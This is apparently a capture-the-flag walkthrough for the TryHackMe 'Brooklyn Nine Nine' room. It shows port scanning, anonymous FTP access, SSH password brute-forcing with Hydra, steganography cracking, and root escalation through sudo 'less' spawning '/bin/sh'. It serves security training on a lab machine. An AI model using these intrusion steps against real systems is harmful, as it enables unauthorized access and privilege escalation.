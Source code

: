 ```yaml
---
layout: post
title: Brookyln Nine Nine Writeup
categories: [TryHackMe]
tags: [Misconfigured FTP, Steganography, Bruteforce]
---
```

 
# Brooklyn Nine Nine walkthrough.
This room is aimed for beginner level hackers but anyone can try to hack this box. There are two main intended ways to root the box. you can check it out here: [Tryhackme](https://www.tryhackme.com/room/brooklynninenine)
          
          
# ~$ Preface::
First off I am personally a huge fan of the show, (Amy is my fav character btw I'm sure yunno why lol) and Its a quite easy one, but no worries if youre stuck I'll walk you through buddy;) but first I'll leave hints to stimulate your mind:
![image](https://github.com/Rami3ll/Rami3ll.github.io/blob/main/assets/img/posts/brooklyn99.jpg)


# ~$ Hints::
- checked source code yet??
- Port 80 exists for a reason yunno?
- Hmph, just a picture? 
- Bruteforcing steg?

First things first, a Portscan so we know our attack surface:

```
┌──(azazel㉿azazel)-[~/Tryhackme/Brooklyn99]
└─$ nmap -sC -sV 10.10.24.94 -Pn -vv -p 1-1024 -T4 --open  
21/tcp open  ftp     syn-ack vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.45.27
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDQjh/Ae6uYU+t7FWTpPoux5Pjv9zvlOLEMlU36hmSn4vD2pYTeHDbzv7ww75UaUzPtsC8kM1EPbMQn1BUCvTNkIxQ34zmw5FatZWNR8/De/u/9fXzHh4MFg74S3K3uQzZaY7XBaDgmU6W0KEmLtKQPcueUomeYkqpL78o5+NjrGO3HwqAH2ED1Zadm5YFEvA0STasLrs7i+qn1G9o4ZHhWi8SJXlIJ6f6O1ea/VqyRJZG1KgbxQFU+zYlIddXpub93zdyMEpwaSIP2P7UTwYR26WI2cqF5r4PQfjAMGkG1mMsOi6v7xCrq/5RlF9ZVJ9nwq349ngG/KTkHtcOJnvXz
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBItJ0sW5hVmiYQ8U3mXta5DX2zOeGJ6WTop8FCSbN1UIeV/9jhAQIiVENAW41IfiBYNj8Bm+WcSDKLaE8PipqPI=
|   256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIP2hV8Nm+RfR/f2KZ0Ub/OcSrqfY1g4qwsz16zhXIpqk
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
Perfect, port 21, 22 and 80, ftp, ssh and http all present, lets get to it then...

# ~$ First Intended method::
Got anon logins allowed on ftp, so, swiftly I log in to "get" the file we see from our script scan: "note_to_jake.txt" where Amy gives us a clear hint(See why I like her?)::

```
┌──(azazel㉿azazel)-[~/Tryhackme/Brooklyn99]
└─$ ftp 10.10.24.94
Connected to 10.10.24.94.
220 (vsFTPd 3.0.3)
Name (10.10.24.94:azazel): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
226 Directory send OK.
ftp> get note_to_jake.txt
local: note_to_jake.txt remote: note_to_jake.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for note_to_jake.txt (119 bytes).
226 Transfer complete.
119 bytes received in 0.00 secs (378.5372 kB/s)
```
I read the file and get the clue that Jake is using weak creds(Classic Jake), 
```
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```
hehee I let Hydra do his thing::
![image](https://github.com/Rami3ll/Rami3ll.github.io/blob/main/assets/img/posts/B991edit.png)

Welp, Jake was not the root user and the user.txt is also not his or in his home directory, I navigated to Holt's and found the user.txt flag,  
before scp or wget...ing any Privesc script I like to manually check for LPE vectors apparently we have sudo permissions to use "less". [gtfobins](https://gtfobins.github.io/) says we can use this for privesc like so::

![image](https://github.com/Rami3ll/Rami3ll.github.io/blob/main/assets/img/posts/b99Privesc.png)
next::
```
sudo less /etc/profile 
```
And append 
```
!/bin/sh
```
And thats it we are root! read the file, submit the flags.

Why this was fun is because it made me understand the relevance of the /etc/profile config file, it is basically a root owned folder that is ran on login of any user as a child process of systemd(like all processes are) that controls system-wide default variables especially terminal type in our case scenerio, us having priviledged access to the "less" command utility which provides a "vim or a vim-like interface" to read files and edit binaries, leveraging that allowed us carry out command operations within the file with the "less" binary allowing us spawn a root shell.



# ~$ Second Intended Method
Won't be posting images to display cause I forgot to document this part lol, but its pretty basic, I'll give the steps here ;
- Visited port 80 and checked source code which gave the clue:
 ```
 Have you ever head of steganography?
 ```
- Downloaded the image being served on port 80 through the server, Yes the seemingly unsuspecting image.
 Tried a 2 common passwords and failed swiftly and then decided to google-fu a little for tools to bruteforce a steg image and found two: stegcracker and stegseek, although stegseek is more revered due to speed I prefer stegcracker on multithread mode :)
 
- Then I used Stegcracker:
```
sudo apt install stegcracker
```
![image](https://github.com/Rami3ll/Rami3ll.github.io/blob/main/assets/img/posts/steg-bb9.png)

- cat the output file, from using the pass to extract the stego image and it gives us this::
``` 
Holts Password:
fl#################e

Enjoy!!
```
- It gives us Holts ssh creds, I log in, Holt has a different sudo permission, easy fix, used [gtfobins](https://gtfobins.github.io/) and got root!
And thats it!


Greetings, from [Rami3l](https://www.tryhackme.com/p/Rami3l).



